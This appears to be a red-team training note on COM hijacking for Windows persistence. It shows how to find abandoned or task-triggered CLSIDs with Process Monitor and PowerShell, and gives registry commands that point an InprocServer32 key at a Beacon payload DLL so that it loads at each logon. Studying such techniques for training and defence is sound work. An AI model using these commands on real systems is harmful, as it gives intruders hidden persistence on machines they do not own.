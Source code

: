 
Check [[COM Objects]] for theory.
Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).
[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives.


## 🖊️ via Process Monitor

1) Start processmonitor.exe
2) Search for events with the following filters:

- _RegOpenKey_ operations.
- where the Result is _NAME NOT FOUND_.
- and the Path ends with _InprocServer32_.
![[procmon-filter.png]]
3) Let it run for about a minute. One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds, you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so or loaded when a commonly used application (Word, Excel, Outlook, etc) is opened.
4) Once you pick up an CLSID, check if it exists in HKCU and HKCM:

`Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"`

`Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"`

6) To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.  Because this is still on our attacking machine, we'll point it straight at `C:\Payloads\http_x64.dll`.
```
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

If this was the victim machine, you have to drop the dll in the box. When the dll loads, you should get a beacon. 

## 📔 via Task Scheduler

Another great place to look for hijackable COM components is in the Task Scheduler. Rather than executing binaries on disk, many of the default Windows Tasks actually use Custom Triggers to call COM objects. And because they're executed via the Task Scheduler, it's easier to predict when they're going to be triggered. We can use the following PowerShell to find compatible tasks.
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

  

This script is rather self-explanatory and should produce an output similar to the following:
```
Task Name:  SystemSoundsService
Task Path:  \Microsoft\Windows\Multimedia\
CLSID:  {2DEA658F-54C1-4227-AF9B-260AB5FC3543}

Task Name:  MsCtfMonitor
Task Path:  \Microsoft\Windows\TextServicesFramework\
CLSID:  {01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}

```

  
If we view the _MsCtfMonitor_ task in the Task Scheduler, we can see that it's triggered when any user logs in.  This would act as an effective reboot-persistence.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/host-persistence/MsCtfMonitor.png)

  

Lookup the current implementation of {01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} in _HKEY_CLASSES_ROOT\CLSID_**.**
```
PS C:\> Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\MsCtfMonitor.dll
               ThreadingModel : Both

  
```

We can see it's another InprocServer32 (like in process monitor section above) and we can verify that it's currently implemented in HKLM and not HKCU.
```
PS C:\> Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler


PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
  
Now it's simply a case of adding a duplicate entry into HKCU pointing to our DLL (as process monitor section above), and this will be loaded once every time a user logs in.

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:58
🏷️ tags: #redteam #crto 

---

